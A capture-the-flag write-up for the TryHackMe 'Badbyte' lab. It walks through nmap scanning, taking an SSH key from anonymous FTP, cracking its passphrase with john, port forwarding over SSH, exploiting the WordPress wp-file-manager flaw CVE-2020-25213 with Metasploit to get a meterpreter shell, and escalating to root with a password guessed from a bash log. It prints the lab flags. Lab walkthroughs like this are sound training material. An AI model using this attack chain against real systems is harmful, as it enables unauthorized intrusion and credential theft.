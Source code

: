 > Badbyte

**export IP=10.10.81.188**

## Reconnaisance

# Nmap

nmap -sC -sV -T4 -Pn -p- -oN nmap/initial $IP

```

30024/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          1743 Mar 23 20:03 id_rsa
|_-rw-r--r--    1 ftp      ftp            78 Mar 23 20:09 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.107.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 6
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```

ftp $IP 30024

We got 2 files. `note.txt` and `id_rsa`

# Cracking id_rsa password

python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -w=/usr/share/wordlists/rockyou.txt

```
cupcake          (id_rsa)
```

## Port Forwarding

1. ssh -i id_rsa -D 1337 errorcauser@$IP
2. Add socks5 127.0.0.1 1337 to conf file `/etc/proxychains.conf`
3. proxychains nmap -sT 127.0.0.1

```
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

4. ssh -i id_rsa -L 8080:127.0.0.1:80 errorcauser@$IP

Navigate to `localhost:8080`. 

# Web Exploitation

proxychains nmap -sT --script http-enum 127.0.0.1

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.7
|   ?feed=rss2: Wordpress version: 5.7
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /server-status/: Potentially interesting folder
3306/tcp open  mysql
```

proxychains nmap -sT --script http-wordpress-enum 127.0.0.1

```
22/tcp   open  ssh
80/tcp   open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    duplicator 1.3.26
3306/tcp open  mysql
```

nmap --script http-wordpress-enum --script-args check-latest=true,search-limit=1500 -p 8080 127.0.0.1

```
8080/tcp open  http-proxy
| http-wordpress-enum: 
| Search limited to top 1500 themes/plugins
|   plugins
|     duplicator 1.3.26 (latest version:1.4.0)
|_    wp-file-manager 6.0 (latest version:7.1)
```

Searching for vulnerability in wp-file-manager we got `CVE-2020-25213`.

## Metasploit

1. use 0
2. set LHOST 10.8.107.21
3. set RHOSTS 127.0.0.1
4. set RPORT 8080
5. exploit

We got a meterpreter session.

## Meterpreter Session

1. ps -ef

```
1524  /usr/sbin/apache2                         cth       /usr/sbin/apache2 -k start
```

2. cd /home/cth
3. cat user.txt

# user.txt

```
THM{227906201d17d9c45aa93d0122ea1af7}
```

# linpeas.sh

```
[+] Finding passwords inside logs (limit 70)
/var/log/bash.log:cth@badbyte:~$ passwd
/var/log/bash.log:(current) UNIX password: 
/var/log/bash.log:Changing password for cth.
/var/log/bash.log:Enter new UNIX password: 
/var/log/bash.log:Retype new UNIX password: 
/var/log/bash.log:passwd: password updated successfully
```

cat /var/log/bash.log

```
cth@badbyte:~$ whoami
cth
cth@badbyte:~$ date
Tue 23 Mar 21:05:14 UTC 2021
cth@badbyte:~$ suod su

Command 'suod' not found, did you mean:

  command 'sudo' from deb sudo
  command 'sudo' from deb sudo-ldap

Try: sudo apt install <deb name>

cth@badbyte:~$ G00dP@$sw0rd2020 => user mistyped the password
G00dP@: command not found
cth@badbyte:~$ passwd
Changing password for cth.
(current) UNIX password: 
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
cth@badbyte:~$ ls
cth@badbyte:~$ cowsay "vim >>>>>>>>>>>>>>>>> nano"
 ____________________________
< vim >>>>>>>>>>>>>>>>> nano >
 ----------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
cth@badbyte:~$ cowsay " g = pi ^ 2 " 
 ______________
<  g = pi ^ 2  >
 --------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
cth@badbyte:~$ cowsay "mooooooooooooooooooo"
 ______________________
< mooooooooooooooooooo >
 ----------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
cth@badbyte:~$ exit
```

Guess password like `G00dP@$sw0rd2021` and it works. Running sudo -l we can run all as user cth. `sudo su` and we are root!!

# root.txt

```
THM{ad485b44f63393b6a9225974909da5fa}
```